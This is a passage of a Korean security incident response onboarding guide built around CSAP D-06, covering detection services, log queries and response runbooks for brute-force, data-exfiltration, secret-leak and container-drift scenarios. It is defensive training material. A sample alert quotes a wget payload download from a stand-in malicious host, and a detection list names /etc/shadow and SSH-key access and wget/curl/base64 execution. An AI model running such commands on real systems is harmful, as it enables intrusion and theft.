


# 보안 인시던트 대응 — CSAP D-06 기반 완전 가이드

> **문서 ID**: ONBOARD-07-SEC-06
> **버전**: 1.0.0 | **작성일**: 2026-04-12 | **대상**: 보안 담당자, SRE 팀원, 온콜 담당자
> **선행 학습**:
>   - `05-security-hardening.md` — 시스템 보안 강화 방법
>   - `../09-troubleshooting/04-incident-management.md` — 일반 인시던트 관리 절차
>   - `../05-monitoring/11-sre-oncall-guide.md` — 온콜 대응 기초
> **소요 시간**: 최초 숙지 120분 + 보안 이벤트 발생 시 즉시 참조용
> **CSAP**: D-06 (침해사고 관리 — 탐지·분석·격리·복구·보고 全단계), D-08 (접근 통제), D-09 (암호화)
> **Design Ref**: DESIGN-MTU-P15 §2, MTU-N241 §3
> **Plan SC**: FR-P15.1~FR-P15.4, FR-N241.1~FR-N241.8

---

## 목차

1. [보안 인시던트란 무엇인가](#1-보안-인시던트란-무엇인가)
   - 1.1 [일반 인시던트 vs 보안 인시던트](#11-일반-인시던트-vs-보안-인시던트)
   - 1.2 [보안 인시던트 분류 — CSAP D-06 기준](#12-보안-인시던트-분류--csap-d-06-기준)
   - 1.3 [보안 이벤트 심각도 분류 흐름도](#13-보안-이벤트-심각도-분류-흐름도)
   - 1.4 [우리 시스템에서 탐지 가능한 보안 이벤트 목록](#14-우리-시스템에서-탐지-가능한-보안-이벤트-목록)

2. [실시간 보안 위협 탐지 시스템](#2-실시간-보안-위협-탐지-시스템)
   - 2.1 [security-service: 로그인 실패 패턴 탐지](#21-security-service-로그인-실패-패턴-탐지)
   - 2.2 [security-monitor-service: 취약점 스캔 및 예측 알림](#22-security-monitor-service-취약점-스캔-및-예측-알림)
   - 2.3 [Grafana 보안 대시보드 활용](#23-grafana-보안-대시보드-활용)
   - 2.4 [Loki에서 보안 이벤트 쿼리](#24-loki에서-보안-이벤트-쿼리)

3. [TOP 5 보안 인시던트 시나리오 및 대응](#3-top-5-보안-인시던트-시나리오-및-대응)
   - 3.1 [시나리오 1: 무단 API 접근 시도](#31-시나리오-1-무단-api-접근-시도)
   - 3.2 [시나리오 2: 이상한 데이터 액세스 패턴](#32-시나리오-2-이상한-데이터-액세스-패턴)
   - 3.3 [시나리오 3: 시크릿 노출 의심](#33-시나리오-3-시크릿-노출-의심)
   - 3.4 [시나리오 4: 컨테이너 이상 행위 탐지](#34-시나리오-4-컨테이너-이상-행위-탐지)
   - 3.5 [시나리오 5: CSAP 감사 로그 조작 시도](#35-시나리오-5-csap-감사-로그-조작-시도)

4. [CSAP D-06 침해사고 관리 요건](#4-csap-d-06-침해사고-관리-요건)
   - 4.1 [5단계 대응 절차: 탐지 → 분석 → 격리 → 복구 → 보고](#41-5단계-대응-절차)
   - 4.2 [CSAP D-06 침해사고 대응 프로세스 다이어그램](#42-csap-d-06-침해사고-대응-프로세스-다이어그램)
   - 4.3 [72시간 내 보고 의무](#43-72시간-내-보고-의무)
   - 4.4 [증거 보존 방법](#44-증거-보존-방법)

5. [보안 인시던트 보고서 작성](#5-보안-인시던트-보고서-작성)
   - 5.1 [보고서 템플릿](#51-보고서-템플릿)
   - 5.2 [필수 포함 항목](#52-필수-포함-항목)
   - 5.3 [실제 작성 예시 — 시나리오 1 기반](#53-실제-작성-예시--시나리오-1-기반)

6. [재발 방지 및 보안 개선](#6-재발-방지-및-보안-개선)
   - 6.1 [루트 코즈 분석 — 5-Why 방법론](#61-루트-코즈-분석--5-why-방법론)
   - 6.2 [보안 패치 우선순위 결정](#62-보안-패치-우선순위-결정)
   - 6.3 [보안 개선 PDCA 사이클 다이어그램](#63-보안-개선-pdca-사이클-다이어그램)

7. [연락처 및 에스컬레이션 매트릭스](#7-연락처-및-에스컬레이션-매트릭스)
   - 7.1 [심각도별 연락 대상](#71-심각도별-연락-대상)
   - 7.2 [외부 기관 신고 절차](#72-외부-기관-신고-절차)
   - 7.3 [CSAP 인증 기관 통보 요건](#73-csap-인증-기관-통보-요건)

8. [학습 체크리스트](#8-학습-체크리스트)

---

## 1. 보안 인시던트란 무엇인가

### 1.1 일반 인시던트 vs 보안 인시던트

일반 인시던트와 보안 인시던트를 구분하는 것은 대응 절차와 보고 의무가 완전히 다르기 때문에 매우 중요합니다.

```
일반 인시던트 (운영 장애):
  정의: 시스템 오동작으로 인한 서비스 저하 또는 중단
  원인: 버그, 리소스 부족, 네트워크 문제, 하드웨어 장애
  
  예시:
  - auth-service Pod OOM으로 재시작 → 로그인 불가 5분
  - DB 연결 풀 고갈 → API 응답 지연
  - 디스크 가득 참 → 로그 저장 실패

  대응: 기술적 조치 → 서비스 복구 → 인시던트 리포트
  규제 보고: 심각도에 따라 선택적

보안 인시던트 (보안 사고):
  정의: 허가되지 않은 접근, 데이터 유출, 시스템 조작 등
        정보 기밀성·무결성·가용성에 대한 위협
  원인: 외부 공격자, 내부자 위협, 취약점 악용

  예시:
  - 동일 계정으로 10개 국가에서 동시 로그인 시도 → 계정 탈취 의심
  - 관리자 계정으로 새벽 3시에 대량 데이터 다운로드 → 내부자 위협
  - 컨테이너 내에서 /etc/shadow 접근 시도 → 권한 상승 공격

  대응: 격리 → 증거 보존 → 분석 → 복구 → 규제 보고
  규제 보고: CSAP D-06 의무, 개인정보 유출 시 72시간 내 외부 신고

핵심 차이:
  일반 인시던트 → 복구에 집중
  보안 인시던트 → 복구 + 증거 보존 + 규제 보고 + 재발 방지
```

### 1.2 보안 인시던트 분류 — CSAP D-06 기준

CSAP D-06은 침해사고를 5개 유형으로 분류합니다.

| 유형 | 설명 | 예시 | 심각도 |
|------|------|------|--------|
| **기밀성 침해** | 무단 정보 접근 또는 유출 | 개인정보 대량 다운로드, DB 무단 조회 | 최고 |
| **무결성 침해** | 허가 없는 데이터 변조 | 감사 로그 조작, 설정 파일 무단 변경 | 최고 |
| **가용성 침해** | 의도적 서비스 중단 | DDoS 공격, 랜섬웨어 | 높음 |
| **인증·인가 우회** | 취약점으로 권한 획득 | SQL 인젝션, 토큰 위조 | 높음 |
| **악성 행위** | 시스템 내 악성 코드 실행 | 컨테이너 이탈, 크립토마이닝 | 높음 |

CSAP 보안 등급별 대응 수준:

```
CSAP 보안 등급 (우리 시스템: 중/상 등급):

  등급 1 (정보): 보안 이벤트 탐지, 위협으로 발전 가능
    → 로그 기록 + 모니터링 강화

  등급 2 (경고): 보안 위협 패턴 탐지
    → 즉각 조사 + 보안팀 통보

  등급 3 (침해 의심): 보안 사고 가능성 높음
    → 격리 조치 + 팀 리드 + 보안팀 즉각 호출

  등급 4 (침해 확인): 실제 보안 사고 발생 확인
    → 전면 대응 + 외부 기관 신고 검토
```

### 1.3 보안 이벤트 심각도 분류 흐름도

```mermaid
flowchart TD
    EVENT[보안 이벤트 탐지\nFalco / AlertManager / 수동] --> Q1{데이터에\n실제 접근이\n있었는가?}

    Q1 -->|예| Q2{개인정보 또는\nC등급 데이터\n포함?}
    Q1 -->|아니오| Q3{공격 패턴이\n명확한가?}

    Q2 -->|예| CRIT1[등급 4 — 침해 확인\n즉시 전면 대응\n72시간 내 신고 검토]
    Q2 -->|불확실| CRIT2[등급 3 — 침해 의심\n즉각 격리 + 분석]

    Q3 -->|예 (로그인 반복 실패 등)| WARN1[등급 2 — 경고\n즉각 조사 + 보안팀 통보]
    Q3 -->|아니오 (이상 패턴만)| INFO1[등급 1 — 정보\n로그 기록 + 모니터링]

    CRIT1 --> ISOLATE[즉각 격리 조치\n+ 보안팀 + 팀리드 + CTO]
    CRIT2 --> ISOLATE_PARTIAL[부분 격리\n+ 보안팀 호출]
    WARN1 --> INVESTIGATE[즉각 조사\n+ 보안팀 통보]
    INFO1 --> MONITOR[모니터링 강화\n+ 로그 기록]

    ISOLATE --> PRESERVE[증거 보존\n법적 유효성 확보]
    ISOLATE_PARTIAL --> PRESERVE
    INVESTIGATE --> PRESERVE

    PRESERVE --> REPORT_CSAP[CSAP D-06\n침해사고 기록]
    REPORT_CSAP --> EXTERNAL{외부 신고\n필요 여부}
    EXTERNAL -->|개인정보 유출| GDPR[72시간 내\n개인정보보호위원회]
    EXTERNAL -->|사이버 공격| KISA[KISA 침해신고\n118]
    EXTERNAL -->|해당 없음| POSTMORTEM[포스트모템 실시]
    GDPR --> POSTMORTEM
    KISA --> POSTMORTEM

    style CRIT1 fill:#f44336,color:#fff
    style CRIT2 fill:#FF5722,color:#fff
    style WARN1 fill:#FF9800,color:#fff
    style INFO1 fill:#2196F3,color:#fff
    style ISOLATE fill:#9C27B0,color:#fff
    style PRESERVE fill:#607D8B,color:#fff
```

### 1.4 우리 시스템에서 탐지 가능한 보안 이벤트 목록

실제 코드 기반으로 탐지 가능한 이벤트입니다.

```
[security-service 탐지 이벤트]
코드 참조: platform/services/security-service/src/handlers/security.handler.ts

1. LOGIN_FAILED 반복 (FR-P15.1: loginFailuresHandler)
   - 감지 조건: 5분 내 동일 계정 또는 IP에서 5회 이상 실패
   - 심각도: medium (5~6회) / high (7~9회) / critical (10회 이상)
   - 탐지 방법: auditLog 테이블의 'LOGIN_FAILED' 액션 집계

2. MULTI_IP_LOGIN 이상 패턴 (FR-P15.2: anomaliesHandler)
   - 감지 조건: 1시간 내 동일 사용자가 3개 이상 다른 IP로 접근
   - 심각도: high (3~4회) / critical (5회 이상)
   - 의미: 계정 탈취 또는 VPN 우회 의심

3. HIGH_VOLUME_REQUEST 비정상 요청 (FR-P15.2: anomaliesHandler)
   - 감지 조건: 1시간 내 단일 IP에서 100회 이상 요청
   - 심각도: high (100~499회) / critical (500회 이상)
   - 의미: DDoS, 크롤링, 자동화 공격 의심

4. IP_BLOCKED 차단 이력 (FR-P15.3: addIpBlocklistHandler)
   - 차단 등록 시 감사 로그 자동 기록
   - 차단 해제 시도도 기록 (IP_UNBLOCKED)

[security-monitor-service 탐지 이벤트]
코드 참조: platform/services/security-monitor-service/src/lib/

5. VULNERABILITY_SCAN 결과 (vulnerability-scanner.ts)
   - CRITICAL 취약점 발견: 즉각 알림
   - 커버리지 저하 (80% 미만): 경고

6. PREDICTIVE_ALERT 예측 알림 (predictive-alert-engine.ts)
   - 디스크 고갈 예측 (DiskFull)
   - 메모리 OOM 예측 (MemoryOOM)
   - 인증서 만료 예측 (CertExpiry)
   - SLO 위반 예측 (SLOBreach)

[Falco 런타임 탐지]
7. 컨테이너 내 민감 파일 접근 (/etc/shadow, /root/.ssh)
8. 비정상 프로세스 실행 (wget, curl, base64)
9. 컨테이너 이탈 시도 (hostPath 마운트, privileged 실행)
10. 네트워크 외부 연결 시도 (허가되지 않은 외부 IP)

[compliance-service 탐지]
코드 참조: platform/services/compliance-service/src/lib/csap-evidence-collector.ts
11. CSAP 통제항목 준수율 저하 경고
12. 감사 로그 무결성 체인 검증 실패
```

---

## 2. 실시간 보안 위협 탐지 시스템

### 2.1 security-service: 로그인 실패 패턴 탐지

실제 운영 중인 `security-service`의 핵심 탐지 로직을 설명합니다.

```typescript
// platform/services/security-service/src/handlers/security.handler.ts
// Design Ref: DESIGN-MTU-P15 §2 | CSAP: D-06, D-08

// 로그인 실패 패턴 탐지 (FR-P15.1)
// 최근 N분 내 동일 계정/IP의 로그인 실패를 집계합니다
export async function loginFailuresHandler(
  request: FastifyRequest,
  reply: FastifyReply
): Promise<void> {
  // CSAP D-12: Zod로 쿼리 파라미터 검증 (악의적 입력 차단)
  const parseResult = loginFailuresQuerySchema.safeParse(request.query);
  // minutes: 1~1440분, threshold: 1~100회

  const failures = await prisma.auditLog.groupBy({
    by: ['actorId', 'ip'],
    where: {
      action: 'LOGIN_FAILED',
      createdAt: { gte: since },  // 매개변수화 쿼리 (SQL 주입 방지)
    },
    _count: { id: true },
    having: {
      id: { _count: { gte: threshold } },  // 임계값 이상인 경우만
    },
  });

  // 심각도 자동 분류: 10회+ → critical, 7~9회 → high, 5~6회 → medium
  const alerts = failures.map((f) => ({
    actorId: f.actorId,
    ip: f.ip,
    failureCount: f._count.id,
    severity: f._count.id >= 10 ? 'critical' : f._count.id >= 7 ? 'high' : 'medium',
  }));
}
```

이 API를 직접 호출하는 방법:

```bash
# 최근 5분 내 로그인 실패 패턴 확인 (기본값)
curl -s -H "Authorization: Bearer $ADMIN_TOKEN" \
  http://security-service.internal/security/login-failures | jq .

# 예시 응답:
# {
#   "alerts": [
#     {
#       "actorId": "user-123",
#       "ip": "192.168.1.100",
#       "failureCount": 15,
#       "severity": "critical",
#       "period": "5분"
#     }
#   ],
#   "totalAlerts": 1
# }

# 최근 10분 내 임계값 3회 이상 조회
curl -s -H "Authorization: Bearer $ADMIN_TOKEN" \
  "http://security-service.internal/security/login-failures?minutes=10&threshold=3" | jq .

# 이상 접근 패턴 조회 (다중 IP, 대량 요청)
curl -s -H "Authorization: Bearer $ADMIN_TOKEN" \
  "http://security-service.internal/security/anomalies?hours=1" | jq .
```

### 2.2 security-monitor-service: 취약점 스캔 및 예측 알림

```typescript
// platform/services/security-monitor-service/src/lib/vulnerability-scanner.ts
// Design Ref: docs/02-design/mtus/MTU-N241.design.md
// CSAP D-12: 취약점 탐지 SLI

// 취약점 심각도 분류
export enum VulnerabilitySeverity {
  Critical = 'CRITICAL',   // 즉각 패치 필요 (CVSS 9.0 이상)
  High = 'HIGH',           // 빠른 패치 필요 (CVSS 7.0~8.9)
  Medium = 'MEDIUM',       // 계획적 패치 (CVSS 4.0~6.9)
  Low = 'LOW',             // 낮은 우선순위 (CVSS 0.1~3.9)
  Unknown = 'UNKNOWN',     // 아직 평가 안 됨
}

// 스캔 커버리지: 전체 컨테이너 이미지의 몇 %가 스캔되었는가
// 목표: 95% 이상 (FR-N241.6)
export interface ScanCoverage {
  totalImages: number;      // 전체 이미지 수
  scannedImages: number;    // 스캔된 이미지 수
  coverageRate: number;     // 커버리지율 (0.0~1.0)
  unscannedImages: string[]; // 미스캔 이미지 목록
}
```

예측 알림 엔진:

```typescript
// platform/services/security-monitor-service/src/lib/predictive-alert-engine.ts
// CSAP D-06: 사전 예측 기반 침해 예방

// 선형 회귀로 미래 값을 예측하여 사전 경고
export enum PredictionScenario {
  DiskFull = 'DISK_FULL',       // 디스크 고갈 예측
  MemoryOOM = 'MEMORY_OOM',     // 메모리 OOM 예측
  CertExpiry = 'CERT_EXPIRY',   // 인증서 만료 예측
  SLOBreach = 'SLO_BREACH',     // SLO 위반 예측
  PVSaturation = 'PV_SATURATION', // PV 포화 예측
}

// 예측 결과: 현재 추세를 유지할 때 언제 임계값에 도달하는가
export interface WindowPrediction {
  windowName: string;            // "1h", "6h", "24h", "7d"
  predictedValue: number;        // 예측 값
  breachExpected: boolean;       // 임계값 초과 예측 여부
  timeToBreachSeconds: number | null; // 임계값까지 남은 시간 (초)
}
```

### 2.3 Grafana 보안 대시보드 활용

```
보안 모니터링 대시보드 목록:

  [대시보드 1] Security Overview
  URL: http://grafana.internal/d/security/overview
  패널 목록:
    - Login Failure Rate (분당 로그인 실패 횟수)
    - Active IP Blocks (현재 차단된 IP 수)
    - Anomalous Access Patterns (이상 접근 탐지 수)
    - Vulnerability Severity Distribution (취약점 심각도 분포)
    - Audit Log Integrity Status (감사 로그 무결성 상태)

  [대시보드 2] Threat Detection
  URL: http://grafana.internal/d/security/threats
  패널 목록:
    - Falco Events Timeline (Falco 이벤트 시간선)
    - Multi-IP Login Anomalies (다중 IP 로그인 이상)
    - High Volume Requests by IP (IP별 대량 요청)
    - Blocked IPs History (차단 IP 이력)

  [대시보드 3] Vulnerability Management
  URL: http://grafana.internal/d/security/vulns
  패널 목록:
    - Scan Coverage Rate (스캔 커버리지율)
    - Critical/High Vulnerabilities Count (심각/높음 취약점 수)
    - Unpatched Vulnerabilities Age (미패치 취약점 경과 시간)
    - Trivy Scan Performance (스캔 성능)

  [대시보드 4] CSAP Compliance Status
  URL: http://grafana.internal/d/csap/compliance
  패널 목록:
    - CSAP D-06 Audit Log Coverage (감사 로그 커버리지)
    - Certificate Expiry Countdown (인증서 만료 카운트다운)
    - Security Patch SLA Compliance (보안 패치 SLA 준수율)
```

### 2.4 Loki에서 보안 이벤트 쿼리

```logql
# 1. 로그인 실패 이벤트 (최근 1시간)
{namespace="saas-platform", app="audit-service"}
| json
| action = "LOGIN_FAILED"
| line_format "{{.timestamp}} IP={{.ip}} User={{.actorId}}"

# 2. IP 차단 이벤트 (보안팀 조치 이력)
{namespace="saas-platform", app="security-service"}
| json
| action = "IP_BLOCKED"
| line_format "{{.timestamp}} {{.ip}}: {{.metadata.reason}}"

# 3. 이상 접근 패턴 탐지 로그
{namespace="saas-platform", app="security-service"}
|= "MULTI_IP_LOGIN" OR "HIGH_VOLUME_REQUEST"

# 4. Falco 보안 이벤트 (컨테이너 이상 행위)
{namespace="falco"}
| json
| priority =~ "WARNING|ERROR|CRITICAL"
| line_format "{{.time}} [{{.priority}}] {{.rule}}: {{.output}}"

# 5. 감사 로그 무결성 오류
{namespace="saas-platform", app="audit-service"}
|= "INTEGRITY_VIOLATION" OR "HASH_MISMATCH"

# Loki 접속 방법:
# http://grafana.internal → Explore → 데이터소스: Loki
# 또는 CLI: logcli query '{namespace="saas-platform"}' --addr=http://loki.internal:3100
```

---

## 3. TOP 5 보안 인시던트 시나리오 및 대응

### 3.1 시나리오 1: 무단 API 접근 시도 (인증 실패 반복)

```
시나리오:
  - 탐지: 새벽 02:30, AlertManager가 "LoginFailureRateHigh" 알림 발송
  - 증상: 지난 5분 동안 user-123@example.com 계정으로 47회 로그인 실패
  - 출처 IP: 203.0.113.45 (해외 IP)
  - CSAP 분류: D-08 (접근 통제 위반 시도), 등급 2~3
```

**1단계: 탐지 및 확인 (0~5분)**

```bash
# 로그인 실패 패턴 즉시 확인
curl -s -H "Authorization: Bearer $ADMIN_TOKEN" \
  "http://security-service.internal/security/login-failures?minutes=5&threshold=5" | jq .

# 출력 예시:
# {
#   "alerts": [{
#     "actorId": "user-123",
#     "ip": "203.0.113.45",
#     "failureCount": 47,
#     "severity": "critical",
#     "period": "5분"
#   }],
#   "totalAlerts": 1
# }

# Loki에서 해당 IP 전체 활동 확인
# {namespace="saas-platform"} | json | ip = "203.0.113.45"

# 해당 IP가 이전에도 시도했는지 확인 (24시간)
curl -s -H "Authorization: Bearer $ADMIN_TOKEN" \
  "http://security-service.internal/security/login-failures?minutes=1440&threshold=3" | \
  jq '.alerts[] | select(.ip == "203.0.113.45")'
```

**2단계: 즉각 대응 — IP 차단 (5~10분)**

```bash
# 의심 IP 즉시 차단 (보안팀 확인 후 실행)
curl -s -X POST \
  -H "Authorization: Bearer $ADMIN_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "ip": "203.0.113.45",
    "reason": "브루트포스 로그인 시도: 5분 내 47회 실패",
    "durationMinutes": 1440
  }' \
  http://security-service.internal/security/ip-blocklist | jq .

# 차단 확인
curl -s -H "Authorization: Bearer $ADMIN_TOKEN" \
  http://security-service.internal/security/ip-blocklist | \
  jq '.entries[] | select(.ip == "203.0.113.45")'
```

**3단계: 영향 범위 분석 (10~20분)**

```bash
# 해당 계정이 실제로 침해되었는지 확인
# (성공한 로그인이 있는지 확인)
kubectl exec -n saas-platform \
  $(kubectl get pod -n saas-platform -l app=postgresql -o name | head -1) \
  -- psql -U postgres -c "
    SELECT action, ip, created_at
    FROM audit_logs
    WHERE actor_id = 'user-123'
      AND created_at > NOW() - INTERVAL '24 hours'
      AND action IN ('LOGIN_SUCCESS', 'LOGIN_FAILED')
    ORDER BY created_at DESC
    LIMIT 50;
  "

# 최근 성공한 로그인이 있으면 → 해당 세션 즉시 무효화 필요
# JWT 블랙리스트에 추가 (auth-service API 사용)
curl -s -X POST \
  -H "Authorization: Bearer $ADMIN_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"userId": "user-123", "reason": "security_incident"}' \
  http://auth-service.internal/auth/revoke-all-sessions | jq .
```

**4단계: CSAP D-06 기록**

```bash
# 보안 이벤트 감사 로그 확인 (차단 조치가 기록되었는지)
kubectl exec -n saas-platform \
  $(kubectl get pod -n saas-platform -l app=postgresql -o name | head -1) \
  -- psql -U postgres -c "
    SELECT actor_id, action, target, metadata, created_at
    FROM audit_logs
    WHERE action IN ('IP_BLOCKED', 'SESSION_REVOKED')
      AND created_at > NOW() - INTERVAL '1 hour'
    ORDER BY created_at DESC;
  "
```

### 3.2 시나리오 2: 이상한 데이터 액세스 패턴 (대량 다운로드)

```
시나리오:
  - 탐지: 오후 11시 45분, Falco 알림 "Large Data Export Detected"
  - 증상: 관리자 계정(admin-456)이 30분 동안 3,000개 사용자 레코드 조회
  - 평소 패턴: 관리자는 업무 시간에 일반적으로 50~100개 조회
  - CSAP 분류: D-06 (기밀성 침해 의심), 등급 3
```

**1단계: Falco 알림 확인 및 초기 분석**

```bash
# Falco 알림 내용 확인
kubectl logs -n falco -l app=falco --tail=50 | \
  jq 'select(.rule | contains("Data Export"))'

# security-service 이상 패턴 API로 확인
curl -s -H "Authorization: Bearer $ADMIN_TOKEN" \
  "http://security-service.internal/security/anomalies?hours=2" | jq .

# 해당 관리자 계정 최근 24시간 활동 로그
kubectl exec -n saas-platform \
  $(kubectl get pod -n saas-platform -l app=postgresql -o name | head -1) \
  -- psql -U postgres -c "
    SELECT
      action,
      target,
      metadata->>'record_count' AS count,
      created_at
    FROM audit_logs
    WHERE actor_id = 'admin-456'
      AND created_at > NOW() - INTERVAL '24 hours'
    ORDER BY created_at DESC
    LIMIT 100;
  "
```

**2단계: 위협 수준 판단 및 격리**

```bash
# 평소 행동 패턴과 비교
kubectl exec -n saas-platform \
  $(kubectl get pod -n saas-platform -l app=postgresql -o name | head -1) \
  -- psql -U postgres -c "
    SELECT
      DATE_TRUNC('hour', created_at) AS hour,
      COUNT(*) AS request_count,
      SUM((metadata->>'record_count')::int) AS total_records
    FROM audit_logs
    WHERE actor_id = 'admin-456'
      AND action LIKE '%READ%'
      AND created_at > NOW() - INTERVAL '7 days'
    GROUP BY hour
    ORDER BY hour DESC
    LIMIT 50;
  "

# 비정상 판단 기준:
# - 업무 시간 외 (18:00 이후) 대량 조회
# - 평소 대비 10배 이상 조회량
# - 조회한 테넌트가 담당 범위를 벗어남

# 내부 위협으로 판단 시: 계정 즉시 잠금 (보안팀 승인 필요)
curl -s -X POST \
  -H "Authorization: Bearer $SECURITY_ADMIN_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"userId": "admin-456", "reason": "비정상 대량 데이터 접근", "lockType": "temporary"}' \
  http://auth-service.internal/auth/lock-account | jq .
```

**3단계: 영향 받은 데이터 목록 확보 (증거)**

```bash
# 접근된 데이터 목록 추출 (CSAP 증거 보존)
INCIDENT_DIR="/data/ai-saas/.bkit/audit/incidents/INC-SEC-$(date +%Y%m%d)"
mkdir -p "$INCIDENT_DIR"

kubectl exec -n saas-platform \
  $(kubectl get pod -n saas-platform -l app=postgresql -o name | head -1) \
  -- psql -U postgres -c "
    COPY (
      SELECT actor_id, action, target, metadata, ip, created_at
      FROM audit_logs
      WHERE actor_id = 'admin-456'
        AND created_at > '2026-04-12 23:00:00'
      ORDER BY created_at
    ) TO STDOUT WITH CSV HEADER
  " > "$INCIDENT_DIR/accessed-data-list.csv"

echo "접근 데이터 목록 저장: $INCIDENT_DIR/accessed-data-list.csv"
wc -l "$INCIDENT_DIR/accessed-data-list.csv"
```

### 3.3 시나리오 3: 시크릿 노출 의심

```
시나리오:
  - 탐지: CI 파이프라인 로그에서 API 키가 포함된 출력 발견
  - 또는: GitHub/Gitea 커밋에 시크릿이 포함된 것 발견
  - 또는: 환경 변수가 로그에 출력된 것 확인
  - CSAP 분류: D-09 (암호화 — 시크릿 관리 실패), 등급 2~3
```

**1단계: 노출 범위 즉시 파악**

```bash
# Gitea에서 시크릿 포함 커밋 확인 (CI 파이프라인 보안 스캔 결과)
# DevSecOps 파이프라인 (.gitea/workflows/devsecops.yml)의 secret-scan 결과 확인

# 로그에서 시크릿 노출 여부 확인
kubectl logs -n saas-platform \
  -l app=api-gateway \
  --since=24h | grep -E "(API_KEY|SECRET|PASSWORD|TOKEN)" | head -20

# 환경 변수 로그 출력 확인 (CSAP D-09 위반: 시크릿 로그 출력 금지)
kubectl logs -n saas-platform \
  -l app=ai-service \
  --since=24h | grep -iE "(env|environ|config)" | head -20
```

**2단계: Vault 동적 시크릿 즉시 폐기**

```bash
# Vault에서 해당 시크릿 즉시 폐기 (Revoke)
# 1. 현재 발급된 Lease 목록 확인
vault list sys/leases/lookup/database/creds/

# 2. 특정 서비스의 DB 크레덴셜 즉시 폐기
vault lease revoke -prefix database/creds/auth-service-role

# 3. 폐기 확인 (이 크레덴셜로 DB 접속 불가해야 함)
vault lease lookup database/creds/auth-service-role/<lease-id>

# 4. 새 크레덴셜 발급 (서비스 재시작으로 자동 발급)
kubectl rollout restart deployment/auth-service -n saas-platform

# 5. 모든 서비스 시크릿 로테이션 (의심스러우면 전체 교체)
kubectl rollout restart deployment -n saas-platform
```

**3단계: 전체 키 교체 절차 (필요 시)**

```bash
# Vault 루트 토큰 재발급 (보안팀 + 인프라팀 공동)
# 주의: 이 작업은 팀 리드와 보안팀 모두 동의 필요

# JWT 서명 키 교체 (모든 기존 세션 강제 만료)
kubectl create secret generic jwt-secret \
  --from-literal=secret=$(openssl rand -hex 64) \
  --dry-run=client -o yaml | kubectl apply -f -

# 새 시크릿 적용을 위해 auth-service 재시작
kubectl rollout restart deployment/auth-service -n saas-platform

# 영향: 모든 사용자가 재로그인 필요
# 사용자 공지: "보안 강화를 위해 재로그인이 필요합니다"
```

**4단계: 노출된 시크릿이 악용되었는지 확인**

```bash
# 노출된 API 키를 사용한 비정상 호출 이력 확인
kubectl exec -n saas-platform \
  $(kubectl get pod -n saas-platform -l app=postgresql -o name | head -1) \
  -- psql -U postgres -c "
    SELECT actor_id, action, ip, created_at
    FROM audit_logs
    WHERE metadata->>'api_key_hint' = 'EXPOSED_KEY_PREFIX'
      AND created_at > '2026-04-10 00:00:00'
    ORDER BY created_at DESC;
  "
```

### 3.4 시나리오 4: 컨테이너 이상 행위 탐지

```
시나리오:
  - 탐지: Falco "Container Drift Detected" 알림
  - 증상: api-gateway 컨테이너 내에서 /bin/wget 실행 시도
  - Falco 규칙: "Non-expected process spawned in container"
  - CSAP 분류: D-06 (악성 행위), 등급 3~4
```

**1단계: Falco 알림 상세 확인**

```bash
# Falco 최신 이벤트 확인
kubectl logs -n falco \
  -l app=falco \
  --since=30m | jq 'select(.rule | contains("spawn") or contains("Drift"))'

# 예시 Falco 알림:
# {
#   "time": "2026-04-12T03:15:22.000Z",
#   "priority": "WARNING",
#   "rule": "Non-expected process spawned in container",
#   "output": "Unexpected process spawned (user=root command=wget http://malicious.example.com/payload.sh container=api-gateway-primary-xxx pod=api-gateway-primary-xxx-yyy ns=saas-platform image=harbor.internal/public-saas/api-gateway:sha-a1b2c3d)"
# }

# 해당 Pod 즉시 격리 필요 판단
SUSPICIOUS_POD="api-gateway-primary-xxx-yyy"
SUSPICIOUS_NS="saas-platform"
```

**2단계: Pod 즉시 격리**

```bash
# 방법 1: 노드 격리 (해당 Pod가 있는 노드에 새 Pod 스케줄링 차단)
SUSPICIOUS_NODE=$(kubectl get pod $SUSPICIOUS_POD -n $SUSPICIOUS_NS \
  -o jsonpath='{.spec.nodeName}')

kubectl cordon $SUSPICIOUS_NODE
echo "노드 $SUSPICIOUS_NODE 격리 완료"

# 방법 2: NetworkPolicy로 해당 Pod의 네트워크 차단
kubectl apply -f - <<EOF
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: isolate-suspicious-pod
  namespace: $SUSPICIOUS_NS
spec:
  podSelector:
    matchLabels:
      specific-pod-label: $SUSPICIOUS_POD
  policyTypes:
  - Ingress
  - Egress
  # 빈 rules = 모든 트래픽 차단
EOF

# 방법 3: Pod에 taint 추가 (추가 Pod 스케줄링 방지)
